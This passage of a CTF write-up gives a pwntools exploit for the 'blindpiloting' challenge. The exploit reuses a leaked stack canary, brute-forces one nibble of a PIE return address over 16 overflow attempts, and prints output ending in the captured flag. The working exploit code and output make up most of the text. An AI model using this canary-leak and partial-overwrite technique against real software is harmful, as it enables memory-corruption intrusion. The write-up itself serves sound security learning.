 with:

```
bp = 8 * b'B'
flag1 = 0x9f0

for i in range(16):
    payload = buf + canary + bp + p16(flag1 + i * 0x1000)
    print(hex(flag1 + i * 0x1000))
    p.sendline(payload)
    _ = p.recvuntil('}',timeout=0.25)
    if _.find(b'pctf') != -1:
        print(_[_.find(b'pctf'):])
        break
    p.clean()

if _.find(b'pctf') == -1:
    print("FAILED, no base for you")
    sys.exit(1)
```

should do the trick.

The `payload` should look similar to the handjob above, however we have to test each 4th nibble until the exploit works.

The `p.recvuntil('}',timeout=0.25)` will wait up to `0.25` seconds to detect the flag.  When testing with the challenge server it may need to be tuned depending on how overloaded the server is and network congestion.  `0.25` worked for me (3 days after the CTF).  Longer is fine too, it's only 16 attempts.

> P.S. remember to create a `flag1.txt` file during dev/test.

Output:

```
[x] Starting local process './blindpiloting'
[+] Starting local process './blindpiloting': pid 36426
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
b'0008'
b'0008d5'
b'0008d531'
b'0008d531e5'
b'0008d531e54a'
b'0008d531e54af3'
b'0008d531e54af367'
HAVE CANARY
0x9f0
0x19f0
0x29f0
0x39f0
0x49f0
0x59f0
0x69f0
0x79f0
0x89f0
0x99f0
0xa9f0
0xb9f0
0xc9f0
0xd9f0
b'pctf{34zy_fl4g_h3r3_n0t_muc4_m0r3}'
```